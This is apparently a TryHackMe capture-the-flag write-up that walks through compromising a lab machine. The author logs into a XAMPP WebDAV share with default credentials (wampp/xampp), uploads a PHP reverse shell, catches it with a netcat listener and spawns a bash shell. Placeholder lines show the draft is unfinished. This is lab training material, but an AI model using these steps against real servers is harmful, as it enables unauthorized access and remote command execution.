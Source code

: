 After some playing about and searching for an example, I only needed the http address. My searching for default passwords was not as easy as it seemed. My win was "webdav default credentials" which pointed me to a website and gave me some details
```

    The WebDAV plugin for the Apache server included with XAMPP version 1.7.3 or lower is enabled by default. 
    Since WebDAV is an often overlooked/underutilized functionality of the server, the default credentials associated with the WebDAV account are most likely left unchanged by the server admin. 
    The security setup page for the XAMPP server does not mention that WebDAV is enabled by default or ask the server admin to change the default username & password. This poor design choice leads many instances of XAMPP to keep the default credentials and be vulnerable to remote attacks. 

# cmds

    login to the XAMPP server's WebDAV folder 
        cadaver http://<REMOTE HOST>/webdav/
        user: wampp INSERT here
        pass: xampp Insert here
    upload a file to the webdav folder 
        put /tmp/helloworld.txt 

``` 
Not quite the same software but surprise, it did work giving me access to the browser and commandline.
```
/CTF/tryhackme/dav$ cadaver http://10.10.41.81/webdav
Authentication required for webdav on server `10.10.41.81':
Username: wampp
Password: 
dav:/webdav/> 
```
INSERT WEBDAVINDEX HERE

So we know from the list of commands and descriptions that we can add files directly, so lets try to upload the pentestmonkey php-reverse-shell.php file. I set up a netcat listening to port 4567 on my host machine and upload it using webdav.
```
dav:/webdav/> put rev.php rev.php
Uploading rev.php to `/webdav/rev.php':
Progress: [=============================>] 100.0% of 5489 bytes succeeded.
dav:/webdav/> 
```
No I go to the website webdav directory and it is there.

INSERT PHP image

I just click and then I'm in on a shell.

```
/media/sf_CTF/tryhackme/dav$ nc -lnvp 4567
listening on [any] 4567 ...
connect to [10.9.12.213] from (UNKNOWN) [10.10.41.81] 53986
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:10:52 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/$ ls
ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
www-data@ubuntu:/$ cd home
cd home
```